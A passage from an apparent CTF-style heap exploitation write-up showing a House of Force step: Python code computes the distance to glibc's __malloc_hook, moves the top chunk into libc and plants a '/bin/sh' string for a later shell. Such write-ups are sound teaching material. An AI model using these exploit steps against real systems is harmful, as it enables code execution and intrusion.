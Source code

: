 ![](images/malloc_hook_address.png)

In this example is the address `0x7f6399debc28`.

Let's allocate a buffer of size equal to distance and see what happens to the heap.

```python
distance = (libc.sym.__malloc_hook - 0x8) - (heap + 0x1340 + 0x8 + 0x10)
malloc(distance, "")
```

![](images/vis2.png)

Perfect! As you can see the top chunk successfully moved in the libc address space and at the expected address too.

While at it, let's also write the **"/bin/sh"** string in the buffer to use it later.

```python
distance = (libc.sym.__malloc_hook - 0x8) - (heap + 0x1340 + 0x8 + 0x10)
malloc(distance, "/bin/sh\0")
```

This should be at offset `0x1340 + 0x10` from the **heap base**.

![](images/bin-sh.png)
